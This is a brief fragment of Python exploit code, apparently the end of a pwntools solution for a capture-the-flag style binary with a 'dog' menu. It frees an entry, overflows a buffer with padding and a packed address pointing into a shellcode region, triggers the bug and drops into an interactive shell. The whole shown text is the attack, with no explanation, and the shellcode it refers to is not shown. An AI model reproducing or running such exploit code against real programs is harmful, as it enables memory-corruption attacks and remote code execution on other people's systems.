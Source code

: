 ```python
remove(0)
adddog("a" * 0x8 * 9 + p64(0x605420 + len(shellcode)),40)
listen(0)
p.interactive()

```















